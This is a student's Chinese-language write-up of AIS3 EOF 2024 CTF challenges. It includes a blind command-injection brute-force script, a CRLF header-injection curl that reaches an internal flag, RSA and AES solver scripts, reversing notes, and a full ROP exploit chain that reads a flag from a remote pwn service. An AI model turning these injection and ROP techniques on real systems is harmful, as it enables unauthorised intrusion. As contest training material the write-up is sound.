


# AIS3 Writeup

- 學號：`109550206`

## misc

### Welcome

- Flag：`AIS3{W3lc0mE_T0_A1S5s_EOF_2o24}`

#### 解題流程與思路
**解題過程：**
1. 晚上才起床開接 VPN，然後看到 welcome 題敘，進 DC 取得身分組，然後就一直沒翻 flag...，然後先去解 DNS Lookup，回來再翻才終於翻到。

**取得 flag 的畫面：**


## web

### DNS Lookup Tool

- Flag：`AIS3{JUST_3aSY_cOmMAnD_INj3c710N}`

#### 解題流程與思路
**解題過程：**
1. 首先觀察可以其甚至屏蔽了 '*' '?'，但可以發現 host 接起來後面是可以放參數的，也就是 host -V 會 valid (但翻了半天 man page 也沒看到特別的東西)，然後看不到 output，只能用搜的。
    ```php
    <?php
    $blacklist = ['|', '&', ';', '>', '<', "\n", 'flag', '*', '?'];
    $is_input_safe = true;
    foreach ($blacklist as $bad_word)
        if (strstr($_POST['name'], $bad_word) !== false) $is_input_safe = false;

    if ($is_input_safe) {
        $retcode = 0;
        $output = [];
        exec("host {$_POST['name']}", $output, $retcode);
        if ($retcode === 0) {
            echo "Host {$_POST['name']} is valid!\n";
        } else {
            echo "Host {$_POST['name']} is invalid!\n";
        }
    }
    else echo "HACKER!!!";
    ```

2. 從課程 lab 可以知道就是要用 `$()` 來達成目標，且一開始先要找到可控制自如的使其 valid 或 invalid，`$(echo google.com)` 測試起來確定可行。

3. 再來想到的就是 awk，畢竟需要一點 if else 的功能，所以使用 substr($0,1,1) 來判斷第一個字元是否是某值，原本還因為不能 else (;) 而卡了一下，結果可以不用 `host` return value 會是 1。然後目前為止其實還不能確定是否 work，因為找不到可以用的檔案來測試，且 /flag 檔名猜不到，找了 /proc/1/cmdline 猜 '/'，但結果怪怪的，一度以為方法出問題，後找到 /etc/hosts 原本用 '#' 結果因為多行符合印出多個 google.com 而有問題，剛好運氣好，測到 ':' 確定方法可用。
    ```bash
    awk '{ if (substr($0,1,1) == "A") print "google.com" }' /flag
    awk '{ if (substr($0,1,1) == ":") print "google.com" }' /etc/hosts)
    ```

4. 再來就是亂猜檔名，然後中途發現可以 `$(echo $(echo google.com))`，就設法 `ls /`， 均無功而返，再來猜一下根目錄只有一個檔案，問一下 chatgpt，就得到可以 `$(find / -maxdepth 1 -type f)`，就讀到 flag 的檔案了。

5. 接著就是每個位置搜一遍，其實還滿快就搜完了。
    ```bash
    echo '' > ./tmp
    for ((i=32; i<=126; i++)); do
        c=$(printf "%c" "$(printf "\\$(printf %o "$i")")")
        echo $c
        input='$(awk %27{ if (substr($0,33,1) == "'$c'") print "google.com" }%27 $(find / -maxdepth 1 -type f))'
        echo $input
        curl -X POST -d "name=$input" $website >> ./tmp
    done
    cat ./tmp | grep 'is valid'  
    ```

**取得 flag 的畫面：**


### Internal

- Flag：`AIS3{jUST_s0me_fuNNy_n9InX_FEature}`

#### 解題流程與思路
**解題過程：**
1. 解完 DNS_Lookup，然後再回去找一直沒喵到的 welcome 時，喵到..，看來這題可開。
    

2. 然後看起來架構簡單，也沒什麼特別的又要設法使其 internal 去訪問，但 redir 也我們的瀏覽器做的，基本無解，然後就 google 到解法了。

3. ref: https://blog.orange.tw/2014/02/olympic-ctf-2014-curling-200-write-up.html

    ```bash
    curl -v "$website/?redir=https://localhost:7778/%0d%0aX-Accel-Redirect:/flag"
    ```

**取得 flag 的畫面：**


## crypoto

### Baby RSA

- Flag：`AIS3{c0pP3r5mITH$_5h0R7_PaD_a7T4CK}`

#### 解題流程與思路
**解題過程：**

1. 接上去會發現可以，每次都可以取得一個使用不同 N 同樣 e 的 c，稍稍回憶一下似乎可以是個經典的洞，網路上找了幾個，就找到能直接用的了，

2. ref: https://github.com/lossme/CTF/blob/master/challenge/RSA/%E5%B9%BF%E6%92%AD%E6%94%BB%E5%87%BB%20%E4%BD%BF%E7%94%A8%E4%B8%8D%E5%90%8C%E7%9A%84n%EF%BC%88e%E7%9B%B8%E5%90%8C%EF%BC%89%E5%88%86%E5%88%AB%E5%AF%B9%E4%B8%80%E4%B8%AA%E6%98%8E%E6%96%87%E5%8A%A0%E5%AF%86/solve.py

    ```python
    def CRT(mi, ai):
        assert (isinstance(mi, list) and isinstance(ai, list))
        M = functools.reduce(lambda x, y: x * y, mi)
        ai_ti_Mi = [a * (M // m) * gmpy2.invert(M // m, m) for (m, a) in zip(mi, ai)]
        return functools.reduce(lambda x, y: x + y, ai_ti_Mi) % M

    m_decrypt = gmpy2.iroot(CRT([n1, n2, n3], [FLAG1, FLAG2, FLAG3]), e)[0]
    print(long_to_bytes(m_decrypt))
    ```
3. 詳見 crypto/rsa/sol.py

**取得 flag 的畫面：**


### Baby AES

- Flag：`AIS3{_Bl0ck_C1Ph3R_m0de_MaStER_}`

#### 解題流程與思路
**解題過程：**

1. 觀察一下可以發現關鍵是，想辦法讓它幫我們 AEC_enc 任意的 pt，而我們想要 AES_enc 的都是 counter。

2. 研究個別 mode，可以發現發現若給 AES_CTR 的 pt 為 '\x00' 就可以 leak 出 counter + 3 + n 的 AES_enc，但我們需要的提供給我們進行使用之前的 counter, counter + 1, counter + 2 的 AES_enc。

    ```python
    def AES_CTR (iv, pt):
        ct = b""
        for i in range(0, len(pt), 16):
            x = AES_enc(iv)
            ct += XOR(x, pt[i : i + 16])
            #print("A:", b64encode(x))
            iv = counter_add(iv)
        return ct
    ```

4. 這裡有一個關鍵 CTR func 使用的 counter 是 local，因此等於得知後面 4 次使用機會時使用的 AES_enc(iv)。

5. 接著觀察 CFB 可以發現 XOR(AES_enc(iv), pt[i : i + 16]) 會是下一個 block 的 iv，而 AES_enc(iv) 已知、pt[i : i + 16] 可控，因此此時可以任意指定 XOR(AES_enc(magic),  '\x00' * 16)，請其幫我們找到 counter, counter + 1, counter + 2。

    ```python
    def AES_CFB (iv, pt):
        ct = b""
        for i in range(0, len(pt), 16):
            _ct = XOR(AES_enc(iv), pt[i : i + 16])
            iv = _ct
            ct += _ct
        return ct
    ```

6. 總之先把東西的接出來
    ```python
    from Crypto.Cipher import AES
    from Crypto.Util.number import long_to_bytes as l2b, bytes_to_long as b2l
    from os import urandom
    from base64 import b64encode, b64decode
    from pwn import *

    r = remote('chal1.eof.ais3.org', 10003)

    r.recvuntil(b'c1_CFB: (b\'')
    iv_cfb = r.recvuntil(b'\'').split(b'\'')[0]
    r.recvuntil(b', b\'')
    ct_cfb = r.recvuntil(b'\'').split(b'\'')[0]
    r.recvuntil(b'c2_OFB: (b\'')
    iv_ofb = r.recvuntil(b'\'').split(b'\'')[0]
    r.recvuntil(b', b\'')
    ct_ofb = r.recvuntil(b'\'').split(b'\'')[0]
    r.recvuntil(b'c3_CTR: (b\'')
    iv_ctr = r.recvuntil(b'\'').split(b'\'')[0]
    r.recvuntil(b', b\'')
    ct_ctr = r.recvuntil(b'\'').split(b'\'')[0]

    iv_cfb = b64decode(iv_cfb)
    ct_cfb = b64decode(ct_cfb)
    iv_ofb = b64decode(iv_ofb)
    ct_ofb = b64decode(ct_ofb)
    iv_ctr = b64decode(iv_ctr)
    ct_ctr = b64decode(ct_ctr)

    def XOR (a, b):
        return l2b(b2l(a) ^ b2l(b)).rjust(len(a), b"\x00")
        
    def counter_add(iv):
        return l2b(b2l(iv) + 1).rjust(16, b"\x00")
    ```

7. 再造一個使用的 5 次機會的 func
    ```python
    def AES(pt, mode):
        r.recvuntil(b'What operation mode do you want for encryption? ')
        r.sendline(mode.encode())
        r.recvuntil(b'What message do you want to encrypt (in base64)? ')
        r.sendline(b64encode(pt))
        r.recvuntil(b'b\'')
        iv = r.recvuntil(b'\'').split(b'\'')[0]
        r.recvuntil(b' b\'')
        ct = r.recvuntil(b'\'').split(b'\'')[0]
        return b64decode(iv), b64decode(ct)
    ```

8. 首先早一個至少 5 個 blocak 的 NULL bytes 丟 CTR 拿到 AES_enc(counter+n)
    ```python
    magic_null_pt = b'\x00'*16*5
    iv, magic_ct = AES(magic_null_pt, 'CTR')
    print(magic_ct[0:16])
    print(magic_ct[16:32]) #next1
    print(magic_ct[32:48]) #next2
    print(magic_ct[48:64]) #next3
    print(magic_ct[64:80]) #next4
    ```

9. 收先是 c1 於 enc 時共有兩個 block，透過前述概念分別得出其 AES_enc(iv) 即可還原 c1，這邊用了 2 次。
    ```python
    magic_iv_geter = XOR(magic_ct[16:32], iv_cfb) + b'\x00'*16
    iv, ct = AES(magic_iv_geter, 'CFB')
    aes_cfb_iv = ct[16:32]
    pt = XOR(ct_cfb[0:16], aes_cfb_iv)

    next_needed_iv = ct_cfb[0:16]
    magic_iv_geter = XOR(magic_ct[32:48], next_needed_iv) + b'\x00'*16
    iv, ct = AES(magic_iv_geter, 'CFB')
    aes_cfb_iv = ct[16:32]
    pt += XOR(ct_cfb[16:32], aes_cfb_iv)

    c1 = pt
    print("c1:",c1)
    ```

10. 用上相同概念可以得到 C2。又用了 2 次，至此用完了。
    ```python
    magic_iv_geter = XOR(magic_ct[48:64], iv_ofb) + b'\x00'*16
    iv, ct = AES(magic_iv_geter, 'CFB')
    aes_ofb_iv = ct[16:32]
    pt = XOR(ct_ofb[0:16], aes_ofb_iv)

    next_needed_iv = aes_ofb_iv
    magic_iv_geter = XOR(magic_ct[64:80], next_needed_iv) + b'\x00'*16
    iv, ct = AES(magic_iv_geter, 'CFB')
    aes_ofb_iv = ct[16:32]
    pt += XOR(ct_ofb[16:32], aes_ofb_iv)

    c2 = pt
    print("c2:",c2)
    ```
    
11. 接著除了第一段的 block AES_enc(iv(counter)) 拿不到外，都已經有了，在發現其是 local 變數時就知道。原本預計要使用上述同樣方法再撈出第一個 block，但用完了次數。

    ```python
    tmp = XOR(c1, c2)
    c3_2 = XOR(magic_ct[0:16], ct_ctr[16:32])
    flag = XOR(c3_2, tmp[16:32])
    print(flag)
    ```
12. 後來想到，若只要前半 flag，需要的 c1, c2 也只要前半，因此可以省下次數來要 AES_enc(counter+2) ，即可還原出 flag 前半。 
    ```python
    magic_iv_geter = XOR(magic_ct[48:64], iv_ofb) + b'\x00'*16
    iv, ct = AES(magic_iv_geter, 'CFB')
    aes_ofb_iv = ct[16:32]
    pt = XOR(ct_ofb[0:16], aes_ofb_iv)

    c2 = pt
    print("c2:",c2)
    #------------------------
    magic_iv_geter = XOR(magic_ct[64:80], iv_ctr) + b'\x00'*16
    iv, ct = AES(magic_iv_geter, 'CFB')
    aes_ctr_iv = ct[16:32]
    print(aes_ctr_iv)

    c3_1 = XOR(ct_ctr[0:16], aes_ctr_iv)
    print(c3_1)
    #------------------------
    tmp = XOR(c1[0:16], c2[0:16])
    flag = XOR(c3_1, tmp)
    print(flag)
    exit()
    ```
13. 合併即為 flag，詳細 local 確認 debug、完整 code 請見 crypto/aes/sol.py

**取得 flag 的畫面：**


### Baby Side Channel Attack

- Flag：`AIS3{SIDe_chaNnel_15_3A$Y_WH3N_Th3_daTA_Le4Ka93_is_3x@C7}`

#### 解題流程與思路
**解題過程：**
1. 比較晚開的題，意外的不難，首先會觀察到我們有 python 跑的逐行 code，其中的關鍵是 `powmod(e, d, n)`，可以透過其中是否 `if b & 1:` 以及 `b >>= 1` 來還原出 d 的值。

2. 首先要擷取只包含 `powmod(e, d, n)` 的斷落 (trace_copy.txt)，再來要反轉它。

    ```bash
    tac trace_copy.txt > d_rev.txt
    ```

3. 接著逐行讀，當碰到 "r = r * a % c" 即 + 1、"b >>= 1" 即右移。反向算回其實際快速冪的次方。即為 d。
    ```python
    with open('d_rev.txt', 'r') as f:
        lines = f.readlines()
        lines = [line.strip() for line in lines]

    d = 0
    for line in lines:
        if "r = r * a % c" in line:
            d += 1
        elif "b >>= 1" in line:
            d <<= 1
            
    print(d)
    ```

4. 接著就是數學問題，可以造出四個 N 的倍數，其中兩組因次方 d 太大不能用。求 gcd 很可能就是 N，就有私鑰可解 m。

    ```sage
    de_not_mod = pow(d, e) - de
    ed_e_not_mod = pow(ed, e) - e
    N = gcd(de_not_mod, ed_e_not_mod)
    print("N", N)
    m = pow(c, d, N)
    print(m)
    print(long_to_bytes(int(m)))
    ```

**取得 flag 的畫面：**


## reverse

### Flag Generator

- Flag：`AIS3{U$1ng_W1Nd0w5_15_sUcH_A_P@1n....}`

#### 解題流程與思路
**解題過程：**
1. 直接跑會跟我們說其要生成的 flag.exe 忘記生寫出來了。

    

2. 開 ida 看可以看到其就是進行一些運算造出 flag.exe 的 binary，再 call writeFile，寫出去，但其沒有寫出的這行 code。

3. 然後可以看到其印出 Oops 的指令是 fwrite，很明顯可以 patch 成 `fwrite(a2, 1, 0x600, Stream)`，分別停在其前面和後面，方便改 code 和確認 output 狀況。

    

4. 將 call fwrite 之前的 asm 參數指定更改，且往前翻一下，可以看到很貼心的有個參數的 offset，

    

5. 然後就會看到 2KB 的 flag.exe，直接執行，會看很像 flag 內文的訊息，抄過去就是了。

6. 然後我抄漏一個 '.' (3 個, 4 個 )，然後一直沒 check 到，然後就去 reverse flag.exe，然後搞了很久也搞出個所以然...。不知為何不能複製，還有強烈譴責不加 flag 外框的行為。

**取得 flag 的畫面：**


### stateful

- Flag：`AIS3{ArE_you_@_sTATEfuL_Or_St@teLeSS_C7FeR}`

#### 解題流程與思路
**解題過程：**
1. IDA 開啟可以發現其為第一個參數 (應為 flag) 經過一系列操作後，與 k_target 比較若一樣即印 "Correct!!!"。總之先 dump k_target

    

2. 直覺是 angr，跟當初作業的其實很接近，只參數要 43 bytes，目標改三個驚嘆號的 'Correct'。然後記憶體不夠 'Killed'。

    ```python
    import angr
    import claripy
    import logging
    logging.getLogger('angr.sim_manager').setLevel(logging.DEBUG)
    proj = angr.Project('./stateful', auto_load_libs=False)
    sym_argv = claripy.BVS('sym_argv', 8 * 43)
    prefix = claripy.BVV(b'AIS3{')
    suffix_length = 43 - len(b'AIS3{')
    suffix = claripy.BVS('sym_argv_suffix', 8 * suffix_length)
    combined_sym_argv = claripy.Concat(prefix, suffix)
    constraint = sym_argv == combined_sym_argv
    state = proj.factory.entry_state(args=[proj.filename, sym_argv])
    state.add_constraints(constraint)
    simgr = proj.factory.simulation_manager(state)
    simgr.explore(find=lambda s: b'Correct!!!' in s.posix.dumps(1))
    if len(simgr.found) > 0:
        print(simgr.found[0].solver.eval(sym_argv, cast_to=bytes) )
    else:
        print("No!")
    ```
3. 然後就被我放置了，最後才放棄直接硬幹，結果其實頗容易，且快。首先把 state_machine 、state_* 都複製出來，用取代改成可編譯的 cpp (test.cpp)，關於 a1 += a1[] + a1[] 之類的操作也用取代改成 puts。

    ```cpp
    char* state_2421543205(char*a1)
    {
    char*result; // rax

    result = a1 + 17;
    puts("a1[17] += a[0] + a1[7]");
    return result;
    }
    ```

4. 然後執行。再反轉，再用取代把 += 與 -= 互換。

    ```bash
    g++ test.cpp -o test 
    ./test > out.txt
    tac out.txt > out_rev.txt
    ```

5. 再讀進 k_target.txt，並執行反向好的 code ，就會算出 flag。

    ```python
    from pwn import *

    r = process(['cat','k_target.txt'])

    target = r.recv(43)

    print(target)

    a1 = list()

    for i in range(43):
        a1.append(target[i])

    a1[5] -= a1[37] + a1[20] 
    a1[8] -= a1[14] + a1[16] 
    a1[17] -= a1[38] + a1[24] 
    a1[15] -= a1[40] + a1[8] 
    a1[37] -= a1[12] + a1[16] 
    a1[4] -= a1[6] + a1[22] 
    a1[10] += a1[12] + a1[22]
    a1[18] -= a1[26] + a1[31]
    a1[23] -= a1[30] + a1[39]
    a1[4] -= a1[27] + a1[25]
    a1[37] -= a1[27] + a1[18]
    a1[41] += a1[3] + a1[34]
    a1[13] -= a1[26] + a1[8]
    a1[2] -= a1[34] + a1[25]
    a1[0] -= a1[28] + a1[31]
    a1[4] -= a1[7] + a1[25]
    a1[18] -= a1[29] + a1[15]
    a1[21] += a1[13] + a1[42]
    a1[21] -= a1[34] + a1[15]
    a1[7] -= a1[10] + a1[0]
    a1[13] -= a1[25] + a1[28]
    a1[32] -= a1[5] + a1[25]
    a1[31] -= a1[1] + a1[16]
    a1[1] -= a1[16] + a1[40]
    a1[30] += a1[13] + a1[2]
    a1[1] -= a1[15] + a1[6]
    a1[7] -= a1[21] + a1[0]
    a1[24] -= a1[20] + a1[5]
    a1[36] -= a1[11] + a1[15]
    a1[0] -= a1[33] + a1[16]
    a1[19] -= a1[10] + a1[16]
    a1[1] += a1[29] + a1[13]
    a1[30] += a1[33] + a1[8]
    a1[15] -= a1[22] + a1[10]
    a1[20] -= a1[19] + a1[24]
    a1[27] -= a1[18] + a1[20]
    a1[39] += a1[25] + a1[38]
    a1[23] -= a1[7] + a1[34]
    a1[37] += a1[29] + a1[3]
    a1[5] -= a1[40] + a1[4]
    a1[17] -= a1[0] + a1[7]
    a1[9] -= a1[11] + a1[3]
    a1[31] -= a1[34] + a1[16]
    a1[16] -= a1[25] + a1[11]
    a1[14] += a1[32] + a1[6]
    a1[6] -= a1[10] + a1[41]
    a1[2] -= a1[11] + a1[8]
    a1[0] += a1[18] + a1[31]
    a1[9] += a1[2] + a1[22]
    a1[14] -= a1[35] + a1[8]

    for i in range(43):
        print(chr(a1[i]%256),end='')
    ```

**取得 flag 的畫面：**


## pwn

### jackpot

- Flag：`AIS3{JUST_@_e4Sy_1NT_0V3RFlow_4nD_BUf_Ov3rFL0W}`

#### 解題流程與思路
**解題過程：**
1. 首先觀察可以發現，可以隨意得到 stack 某一個位置的值 `ticket_pool[number]`，然後可以 overflow stack `read(0, name, 0x100);`。
    ```cpp
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    apply_seccomp();
    char name[100];
    unsigned long ticket_pool[0x10];
    int number;
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    puts("Lottery!!");
    printf("Give me your number: ");
    scanf("%d", &number);
    printf("Here is your ticket 0x%lx\n", ticket_pool[number]);
    printf("Sign your name: ");
    read(0, name, 0x100);
    ```

2. gdb 開進去可以發現 main base 是固定的不用 leak，也就可以拿到回到 read 的 address、bss (vmmap, jackpot.s)，再來透過 `ticket_pool[number]` leak return address (__libc_start_main)，即可算出 libc base，然後，dump 一下 stack (map.txt)，並 overflow 最大限度出去並 dump (map_after.txt)，算一下可以 return address 之後可以用的空間，依舊不足三個 syscall、'/flag'。
    ```python
    libc_offset = 0x29d90
    main_base = 0x0000000000400000
    read = 0x4013d4
    bss = 0x0404000 + 0x600
    r = remote('10.105.0.21', 12213)
    r.recvuntil(b"Give me your number: ")
    r.sendline(b'31')
    r.recvuntil(b"Here is your ticket ")
    libc_start_main = r.recvline().strip()
    print("libc_start_main", libc_start_main)
    libc_base = int(libc_start_main, 16) - libc_offset
    print("libc_base", hex(libc_base))
    r.recvuntil(b"Sign your name: ")
    payload = b'A' * 0x100
    r.send(payload.ljust(0x100, b'\x00'))
    ```

3. 取得 libc 的 base 後去找 gadget (libc_gadget, libc.s)，

    ```python
    #remote
    #0x0000000000045eb0 : pop rax ; ret
    pop_rax_offset = 0x0000000000045eb0
    #0x000000000002a3e5 : pop rdi ; ret
    pop_rdi_offset = 0x000000000002a3e5
    #0x000000000002be51 : pop rsi ; ret
    pop_rsi_offset = 0x000000000002be51
    #0x00000000000904a9 : pop rdx ; pop rbx ; ret
    pop_rdx_rbx_offset = 0x00000000000904a9
    #   91316:	0f 05                	syscall 
    #   91318:	c3                   	ret 
    syscall_offset = 0x91316
    pop_rax = libc_base + pop_rax_offset
    pop_rdi = libc_base + pop_rdi_offset
    pop_rsi = libc_base + pop_rsi_offset
    pop_rdx_rbx = libc_base + pop_rdx_rbx_offset
    syscall = libc_base + syscall_offset
    ```

4. 然後就可以開始 rop chain，首先要先移駕 bss，沒有 canary，而 return address 前一個位置即是 leave 時 rbp 後跳到的地方。
    ```python
    payload = b'A' * (8 * 14)
    rop = flat([bss,
                read])
    payload += rop
    r.send(payload.ljust(0x100, b'\x00'))
    print("send payload")
    r.recvuntil(b"You get nothing QQ")
    ```

5. 然再次回來 read，給 open 的 syscall，其中前面堆 overflow 的部分偷塞 'flag'。
    ```python
    payload = b'/flag'.ljust(8*14, b'\x00')
    rop = flat([bss+0x200,
                pop_rax, 0x2,
                pop_rdi, 0x404590,
                pop_rsi, 0,
                pop_rdx_rbx, 0, 0,
                syscall,
                read])
    payload += rop
    r.send(payload.ljust(0x100, b'A'))
    print("send payload")
    r.recvuntil(b"You get nothing QQ")
    ```

6. 然後 read，這邊這次終於成功了，之前原本這樣跳的時候都會 crash (lab, hw)，但都有一些其他技巧可以不要跳這步，所以沒去處理 (像 read size 調大，或開 shell 等，原本這次也嘗試去找 mov edx, 來調 size) ，最後終於發現原因是 call read 之類的 func stack 長出去會蓋到一些 stack，會用到一些我們寫在上面的值，而跳到奇怪的地方，或產生迴圈。因此 bss 的選擇其實也有技巧。
    ```python
    payload = b'A' * (8 * 14)
    rop = flat([bss,
                pop_rax, 0x0,
                pop_rdi, 3,
                pop_rsi, bss - 0x200,
                pop_rdx_rbx, 0x100, 0,
                syscall,
                read])
    payload += rop
    r.send(payload.ljust(0x100, b'A'))
    print("send payload")
    r.recvuntil(b"You get nothing QQ")
    ```

7. 另外有發現，這次的 read 其實可以 pop rax 指定要寫的位置，不受限 rbp。隨然沒用到。
    ```
    4013d4:	48 8d 45 90          	lea    rax,[rbp-0x70]
    4013d8:	ba 00 01 00 00       	mov    edx,0x100
    4013dd:	48 89 c6             	mov    rsi,rax
    4013e0:	bf 00 00 00 00       	mov    edi,0x0
    4013e5:	e8 e6 fc ff ff       	call   4010d0 <read@plt>
    ```
8. 最後 write 回來。
    ```python
    payload = b'A' * (8 * 14)
    rop = flat([bss+0x200,
                pop_rax, 0x1,
                pop_rdi, 1,
                pop_rsi, bss - 0x200,
                pop_rdx_rbx, 0x100, 0,
                syscall,
                ])
    payload += rop
    r.send(payload.ljust(0x100, b'A'))
    print("send payload")
    r.interactive()
    ```

**取得 flag 的畫面：**
